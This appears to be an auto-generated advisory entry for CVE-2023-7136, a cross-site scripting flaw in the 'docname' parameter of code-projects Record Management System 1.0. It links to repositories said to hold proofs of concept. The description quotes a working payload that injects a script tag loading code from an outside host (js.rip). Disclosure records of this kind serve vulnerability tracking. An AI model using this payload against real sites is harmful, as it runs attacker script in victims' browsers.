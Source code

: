 ### [CVE-2023-7136](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136)
![](https://img.shields.io/static/v1?label=Product&message=Record%20Management%20System&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%201.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%20Cross%20Site%20Scripting&color=brighgreen)

### Description

A vulnerability classified as problematic was found in code-projects Record Management System 1.0. Affected by this vulnerability is an unknown functionality of the file /main/doctype.php of the component Document Type Handler. The manipulation of the argument docname with the input "><script src="https://js.rip/b23tmbxf49"></script> leads to cross site scripting. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-249139.

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/h4md153v63n/CVEs
- https://github.com/h4md153v63n/h4md153v63n

